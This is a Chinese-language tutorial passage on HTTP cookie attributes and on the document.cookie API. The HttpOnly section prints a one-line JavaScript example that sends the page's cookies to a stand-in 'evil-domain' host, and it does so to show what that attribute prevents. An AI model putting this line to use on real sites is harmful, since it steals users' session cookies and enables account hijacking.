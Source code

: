 # Cookie 的属性
## Expires，Max-Age
`Expires`属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 Cookie。它的值是 UTC 格式，可以使用`Date.prototype.toUTCString()`进行格式转换。
```http
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```
如果不设置该属性，或者设为`null`，Cookie 只在当前会话有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。

`Max-Age`属性指定从现在开始 Cookie 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。

如果同时指定了`Expires`和`Max-Age`，那么`Max-Age`的值将优先生效。

如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。
## Domain，Path
`Domain`属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，`example.com`不设置 Cookie 的`domain`属性，那么`sub.example.com`将不会附带这个 Cookie。如果指定了`domain`属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

`Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`PATH`属性是`/`，那么请求`/docs`路径也会包含该 Cookie。当然，前提是域名必须一致。
## Secure，HttpOnly
`Secure`属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly`属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的`HttpOnly`属性，上面代码就不会读到该 Cookie。
# document.cookie
`document.cookie`属性用于读写当前网页的 Cookie。

读取的时候，它会返回当前网页的所有 Cookie，前提是该 Cookie 不能有`HTTPOnly`属性。
```javascript
document.cookie // "foo=bar;baz=bar"
```
上面代码从`document.cookie`一次性读出两个 Cookie，它们之间使用分号分隔。必须手动还原，才能取出每一个 Cookie 的值。
```javascript
var cookies = document.cookie.split(';');

for (var i = 0; i < cookies.length; i++) {
  console.log(cookies[i]);
}
// foo=bar
// baz=bar
```
`document.cookie`属性是可写的，可以通过它为当前网站添加 Cookie。
```javascript
document.cookie = 'fontSize=14';
```
写入的时候，Cookie 的值必须写成`key=value`的形式。注意，等号两边不能有空格。另外，写入 Cookie 的时候，必须对分号、逗号和空格进行转义（它们都不允许作为 Cookie 的值），这可以用`encodeURIComponent`方法达到。
